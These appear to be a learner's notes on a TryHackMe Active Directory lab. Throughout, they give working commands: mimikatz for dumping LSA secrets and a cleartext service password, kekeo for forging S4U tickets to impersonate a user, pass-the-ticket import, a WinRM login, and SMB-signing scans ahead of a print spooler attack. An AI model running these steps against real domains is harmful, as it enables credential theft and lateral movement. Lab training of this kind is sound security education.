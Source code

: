 - We find that svcIIS can delegate http and WSMAN for THMSERVER1
- As we have Admin access now from previous task we can use `mimikatz` to dump secrets
```bash
lsadump::secrets
```

- Found a cleartext password for svcIIS
	svcIIS:Password1@
- We can now use `kekeo` to use this
```bash
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@
```

- Now we can use `kekeo` to forge a TGS for both http and WSMAN
```bash
# http
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_eileen.burton /service:http/THMSERVER1.za.tryhackme.loc

# wsman
tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_eileen.burton /service:wsman/THMSERVER1.za.tryhackme.loc
```

- Now we can use `mimikatz` to import them
```bash
# http
kerberos::ptt TGS_t1_eileen.burton@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

# wsman
kerberos::ptt TGS_t1_eileen.burton@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- Now we can use WSMAN to create a new session on the THMSERVER1
```bash
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

- Got in
---------------------------------------------------------------------------------
- Found some printers using
```bash
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```

- We need certain conditions for printer exploits to work
1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

- We have checked first three
- We can check if SMB signing is enabled or not using
```bash
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```

